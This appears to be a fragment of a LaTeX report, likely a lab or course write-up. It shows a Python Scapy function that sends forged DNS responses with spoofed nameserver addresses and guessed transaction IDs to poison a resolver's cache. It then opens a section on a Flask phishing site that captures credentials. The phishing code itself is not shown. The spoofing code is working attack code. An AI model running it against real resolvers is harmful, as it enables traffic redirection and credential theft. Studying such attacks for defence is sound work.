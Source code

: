 \documentclass[12pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[language=python, caption=Realistic TXID Generation for Spoofed Responses]
def spoof_worker(args):
    """Worker process for sending spoofed responses"""
    resolver_ip, real_ns_ip, dns_payload, num_packets = args
    
    for i in range(num_packets):
        # Realistic TXID range (1-50) based on vulnerable server
        txid = random.randint(1, 50)
        
        packet = IP(src=real_ns_ip, dst=resolver_ip) / \
                 UDP(sport=53, dport=53) / \
                 dns_payload
        packet[DNS].id = txid
        send(packet)
        
        if i % 1000 == 0:
            print(f"[SPOOF] Sent {i+1}/{num_packets}: txid={txid}")
\end{lstlisting}

\subsection{Phishing Website Implementation}

\subsubsection{Backend Server}

A Flask-based web server hosts the phishing site and captures credentials:
\end{document}
